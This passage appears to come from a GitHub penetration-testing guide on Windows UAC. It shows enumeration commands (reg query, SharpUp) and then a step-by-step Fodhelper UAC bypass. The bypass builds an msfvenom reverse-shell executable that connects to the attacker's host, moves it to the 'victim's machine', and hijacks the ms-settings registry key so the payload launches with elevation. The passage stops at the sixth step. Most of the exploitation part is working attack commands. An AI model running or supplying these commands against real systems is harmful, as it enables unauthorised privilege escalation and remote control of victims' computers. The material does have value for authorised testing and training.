 ```
reg query HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```

Outcome:

![UAC-Manual-Enumeration](/Pictures/UAC-Manual-Enumeration.png)

### Tool Enumeration

To run the SharpUp tool and perform an enumeration if the `UAC` feature is enabled, you can execute the following command with appropriate argument:

```
SharpUp.exe audit
```

Outcome:

![UAC-Tool-Enumeration](/Pictures/UAC-Tool-Enumeration.png)

## Exploitation

:information_source: This case study leverages a UAC384 bypass that abuses the `Fodhelper.exe` application.

To abuse this scenario you should follow these steps:

1)  Use msfvenom to generate a malicious executable (exe) file:

```
msfvenom -p windows/x64/shell_reverse_tcp lhost=eth0 lport=1234 -f exe > nikos.exe
```

2) Transfer the malicious executable file to victim's machine.

3) Open a listener on your Kali machine.

4) Create with the following PowerShell command a new registry key:

```
New-Item -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" -Force
```

5) Create a new registry entry named "DelegateExecute" under the specified registry path with an empty string as the value:

```
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
```

6) Modify the default command which executed when the specified registry key is triggered:

```
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\shell\open\command" -Name "(default)" -Value "powershell -exec bypass -c C:\<full_path>\<binary.exe>" -Force
```
